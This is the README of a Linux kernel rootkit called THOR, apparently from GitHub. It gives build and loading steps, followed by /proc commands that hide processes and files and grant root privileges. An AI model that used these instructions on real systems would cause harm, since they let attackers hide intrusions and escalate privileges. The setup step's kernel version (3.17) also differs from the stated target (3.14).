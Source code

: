 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID  > /proc/thor     (hides process PID)
       echo up PID  > /proc/thor     (unhides process PID)
       echo upa     > /proc/thor     (unhide all PIDs)
       echo hf FILE > /proc/thor     (hide file FILE)
       echo uf FILE > /proc/thor     (unhide file FILE)
       echo ufa     > /proc/thor     (unhide all files)
       echo root    > /proc/thor     (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
